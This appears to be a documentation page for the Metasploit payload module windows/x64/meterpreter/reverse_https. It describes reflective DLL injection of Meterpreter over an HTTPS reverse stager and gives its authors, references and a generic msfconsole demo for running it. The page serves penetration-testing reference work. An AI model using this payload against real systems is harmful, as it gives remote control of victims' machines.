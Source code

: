## Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged x64). Tunnel communication over 
HTTP (Windows x64 wininet)


## Module Name
payload/windows/x64/meterpreter/reverse_https

## Authors
* skape
* sf
* OJ Reeves
* hdm
* agix
* rwincey


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/meterpreter/reverse_https
msf payload(reverse_https) > show targets
   ... a list of targets ...
msf payload(reverse_https) > set TARGET <target-id>
msf payload(reverse_https) > show options
   ... show and set options ...
msf payload(reverse_https) > run
```
    
    